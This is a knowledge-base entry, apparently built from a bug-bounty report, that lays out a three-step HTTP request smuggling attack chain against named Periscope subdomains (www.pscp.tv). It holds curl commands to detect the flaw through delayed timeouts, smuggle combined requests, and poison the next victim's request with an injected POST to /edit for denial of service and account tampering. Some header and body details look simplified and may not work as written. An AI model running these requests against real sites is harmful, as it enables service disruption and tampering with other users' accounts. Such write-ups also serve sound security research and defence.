

---
tags:
  - http-smuggling
  - dos
  - csrf-bypass
  - cookie-injection
  - request-poisoning
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
commands:
  - '[[commands/craft-http-smuggling-detection-request]]'
  - '[[commands/craft-http-smuggling-combined-request]]'
  - '[[commands/craft-http-smuggling-poisoning-request]]'
platforms:
  - Web
complexity: medium
procedures:
  - >-
    [[procedures/Detect-HTTP-Request-Smuggling-Vulnerability-via-Delayed-Responses]]
  - '[[procedures/Exploit-HTTP-Request-Smuggling-by-Combining-Requests]]'
  - >-
    [[procedures/Poison-Victim-Requests-via-Injected-Payloads-in-HTTP-Smuggling]]
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
description: >-
  Multi-stage exploitation of HTTP Request Smuggling vulnerabilities on pscp.tv
  and periscope.tv subdomains, enabling DoS, CSRF bypass, cookie injection, and
  request poisoning.
skill_level: intermediate
impact_level: high
id: c66597f0-cdd4-46a8-a448-8b992341afee
created_at: '2025-12-13T09:01:21.940Z'
updated_at: '2025-12-13T09:01:21.940Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Endpoint Denial of Service]]'
---
# HTTP Request Smuggling Exploitation on Periscope Subdomains Leading to DoS and Account Compromise

## Overview

This attack chain demonstrates the exploitation of HTTP Request Smuggling vulnerabilities on multiple subdomains of pscp.tv and periscope.tv. The vulnerability arises from inconsistencies in how front-end and back-end servers handle Content-Length and Transfer-Encoding headers. The chain starts with detection via delayed responses, progresses to smuggling multiple requests, and culminates in poisoning victim requests to achieve impacts like Denial of Service (DoS), CSRF token bypass, cookie injection for account linking, and potential further exploits such as editing account details.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform
- Target subdomains: e.g., www.pscp.tv
- Network access to the target web servers

### Initial Access Requirements

- Ability to send HTTP requests to the target
- No prior credentials needed for detection and basic exploitation

## Detailed Attack Procedures

### Step 1: Detect Vulnerability via Delayed Responses
procedure: [[procedures/Detect-HTTP-Request-Smuggling-Vulnerability-via-Delayed-Responses]]

**Objective**: Identify the presence of HTTP Request Smuggling by triggering delayed 504 responses, demonstrating DoS potential.

**Instructions**: Use [[tools/Burp-Suite]] to craft and send HTTP requests that exploit header inconsistencies. Execute [[commands/craft-http-smuggling-detection-request]] to send a request designed to cause a 30s or 60s delay:

```bash
curl -i -s -k -X POST 'https://www.pscp.tv/' \
-H 'Content-Length: 0' \
-H 'Transfer-Encoding: chunked' \
--data '0\r\nG'
```

Monitor for a 504 response with significant delay.

**Expected Output**: A 504 Gateway Timeout response after a delay, confirming the vulnerability.

**Success Indicators**:
- Delayed response observed
- DoS potential confirmed

### Step 2: Smuggle Multiple Requests
procedure: [[procedures/Exploit-HTTP-Request-Smuggling-by-Combining-Requests]]

**Objective**: Combine two HTTP requests into one to bypass parsing and receive combined responses, demonstrating basic smuggling.

**Instructions**: In [[tools/Burp-Suite]], craft a GET request with two CRLFs at the end of the second request and a valid Content-Length in the POST. Execute [[commands/craft-http-smuggling-combined-request]]:

```bash
curl -i -s -k -X POST 'https://www.pscp.tv/' \
-H 'Content-Length: 35' \
-H 'Transfer-Encoding: chunked' \
--data '0\r\nGET / HTTP/1.1\r\nHost: www.pscp.tv\r\n\r\n\r\n'
```

Observe the server responding to both requests as one.

**Expected Output**: Two responses received in one, indicating successful smuggling.

**Success Indicators**:
- Multiple requests processed as one
- Low-impact demonstration achieved

### Step 3: Poison Victim Requests
procedure: [[procedures/Poison-Victim-Requests-via-Injected-Payloads-in-HTTP-Smuggling]]

**Objective**: Inject malicious GET or POST payloads into subsequent victim requests to poison them, enabling impacts like account editing or cookie injection.

**Instructions**: Use [[tools/Burp-Suite]] to inject requests without extra CRLFs in GET or with oversized Content-Length in POST. Execute [[commands/craft-http-smuggling-poisoning-request]] for a POST injection:

```bash
curl -i -s -k -X POST 'https://www.pscp.tv/' \
-H 'Content-Length: 100' \
-H 'Transfer-Encoding: chunked' \
--data '0\r\nPOST /edit HTTP/1.1\r\nHost: www.pscp.tv\r\nContent-Length: 10\r\n\r\nmaliciousdata'
```

This poisons the next victim's request, potentially allowing description edits or cookie injections.

**Expected Output**: Victim request altered, such as modified account details.

**Success Indicators**:
- Successful injection observed
- Impacts like DoS or account compromise demonstrated

## Attack Chain Summary

### Key Achievements

1. Vulnerability detection via DoS indicators
2. Request smuggling for bypassing protections
3. Request poisoning leading to advanced exploits like CSRF bypass and account linking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]
